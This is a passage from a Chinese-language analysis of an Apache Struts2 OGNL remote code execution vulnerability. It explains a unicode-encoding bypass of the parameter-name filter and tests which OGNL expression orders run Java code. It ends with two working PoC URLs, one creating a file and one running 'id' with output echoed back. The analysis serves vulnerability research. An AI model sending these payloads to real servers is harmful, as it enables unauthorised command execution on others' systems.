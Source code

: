 综上，我们就可以将OGNL表达式中的特殊符号`=,#:`进行unicode编码后再发送，便可绕过`acceptableName()`方法的过滤。另外，再利用OGNL表达式的`Expression Evaluation`特性来编写PoC。
>说到OGNL的`Expression Evaluation`特性，它支持`(expr)`、`(expr1)(expr2)`或`(expr1)(expr2)(expr3)`这样的写法。<br>
>但遗憾的是，[官方文档](http://commons.apache.org/proper/commons-ognl/language-guide.html)对`Expression Evaluation`的用法解释得让人看不懂，因为它的字面意思跟这个漏洞公开的PoC的编写逻辑个人感觉对不上。<br>
另外，网上关于Struts2 RCE漏洞的分析文章大多数都没有对`(expr1)(expr2)`OGNL表达式求值背后的计算逻辑进行说明，少数有说到这个的却没有说明白。<br>
>我在调试这个漏洞的时候花了不少时间在`Ognl#setValue()`方法的底层实现上，想搞清楚它背后的运算逻辑，比如该漏洞的PoC为什么用`(java_code)(fuck)(fuck)`可以成功执行Java代码，而`(fuck)(fuck)(java_code)`这种调换了一下位置就不行？<br>
但调试的过程发现，其底层实现比较复杂，涉及到将字符串转换为Ognl底层的AST语法树，然后括号`()`中不同形式的表达式，OGNL底层会使用不同类型的`AST Node`类去表示，如果某个`AST Node`还是一个AST语法树的话，又继续解析。且不同类型的`AST Node`，其行为是不同的，比如有的方法用的父类`SimpleNode`的方法，有的是重写了自己的方法，而这些不同可能会决定了`()`表达式顺序如何摆放
才能成功执行Java代码。<br>
>另外，在调试过程中发现OGNL的代码里有用的注释很少...<br>
>所以到最后我都没办法用言语来描述它的运算规则。因此，我只能用一种笨办法来获得结论，就是用不同形式的求值表达式去做测试，看哪种形式可以成功执行Java代码，测试结果如下：<br>
>
>OGNL表达式求值(Expression Expression)：<br>
>1、如果是调用的`OgnlUtil.getValue()`方法，则以下表达式可以执行java代码：<br>
>- (java code)             
>- (java code)(fuck)
>- (fuck)(java code)
>- (java code)(fuck)(fuck)
>- (fuck)(java code)(fuck)
>
>2、如果是调用的OgnlUtil.setValue()方法，则以下表达式可以执行java代码：<br>
>- (java code)(fuck)
>- (fuck)(java code)
>- (java code)(fuck)(fuck)
>- (fuck)(java code)(fuck)

因为这个该漏洞时由`OgnlUtil.setValue()`方法去触发的，所以综上，可简单执行命令的PoC如下：
```
/xxx.action?
(a)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)
&(b)(%5cu0040java.lang.Runtime%5cu0040getRuntime().exec(%22touch%20/tmp/success2%22))
```

### 可回显PoC

与`S2-001`回显PoC同理，也是通过从上下文对象`context`获取`com.opensymphony.xwork2.dispatcher.HttpServletResponse`对象来实现，如下：
```
/xxx.action?
(a)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)(bla)
&(b)(%5cu0023ret%5cu003d@java.lang.Runtime@getRuntime().exec('id'))(bla)
&(c)(%5cu0023dis%5cu003dnew%5cu0020java.io.BufferedReader(new%5cu0020java.io.InputStreamReader(%5cu0023ret.getInputStream())))(bla)
&(d)(%5cu0023res%5cu003dnew%5cu0020char[20000])(bla)
&(e)(%5cu0023dis.read(%5cu0023res))(bla)
&(f)(%5cu0023writer%5cu003d%5cu0023context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter())(bla)
&(g)(%5cu0023writer.println(new%5cu0020java.lang.String(%5cu0023res)))(bla)
&(h)(%5cu0023writer.flush())(bla)
&(i)(%5cu0023writer.close())(bla)
```
